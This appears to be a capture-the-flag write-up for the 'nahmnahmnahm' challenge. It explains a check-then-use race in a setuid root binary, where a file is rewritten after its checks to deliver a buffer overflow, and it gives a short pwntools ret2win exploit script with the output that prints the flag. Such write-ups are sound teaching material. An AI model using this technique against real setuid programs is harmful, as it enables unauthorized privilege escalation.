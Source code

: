This was a bit of a special challenge, and involved us ssh-ing into a docker container where the attached binary were a setuid binary as root.

The protections of the binary are
```bash
$ pwn checksec nahmnahmnahm
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
{: .nolineno }

Reversing the binary gives the following functions (with the first function, main, being a bit weird/long because of the assembly initializing 128 entries of the *filename* buffer)

![Reversed main](nahmnahmnahm_rev_main.png)

![Reversed vuln](nahmnahmnahm_rev_vuln.png)

The binary opens and print the contents of a file, unless the file contains the word *flag* in it. The file cannot be a symlink either. The size of the file also have to be less than 0x51.

Our goal is to read the `flag` file located at the system, and it is owned by root.

The vulnerability is that the binary waits for an input with `getchar()` before calling `vuln(filename)`, but after the file-checks (filename not containing flag, file being a symlink, and size check). I therefore tried to create an empty file and symlink it to the flag file while the programs waits for an input with `getchar()`. I though this would work because of the setuid, but I got `fopen: permission denied` instead.

I then notices that there was a function in the binary, `winning_function`, which just prints the flag when called. This makes the challenge being a `ret2win` challenge, as the `vuln` function reads 0x1000 bytes from a file into a 80 byte buffer.

What differs this challenge from a standard `ret2win` challenge is that we have to create a file smaller than 0x51 bytes (without the word *flag* in the filename), and while the program waits for our input for `getchar()` we write a `ret2win` payload to the file with another terminal shell, and then let the program read our payload-file which exploits the buffer overflow.

The exploit-script creating the payload-file becomes
```python
from pwn import *

exe = context.binary = ELF('/home/user/nahmnahmnahm', checksec=False)

payload = b"A"*104
payload += pack(exe.sym.winning_function)

with open("payload", "wb") as f:
    f.write(payload)
```
{: file="exploit.py" }

Running this exploit gives us the flag (before pressing enter we run our exploit.py file to write into the empty *payload* file)
```bash
user@:~$ ./nahmnahmnahm
Enter file: /tmp/payload
Press enter to continue:

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�@Welcome to the winning function!
flag{d41d8cd98f00b204e9800998ecf8427e}

Segmentation fault
```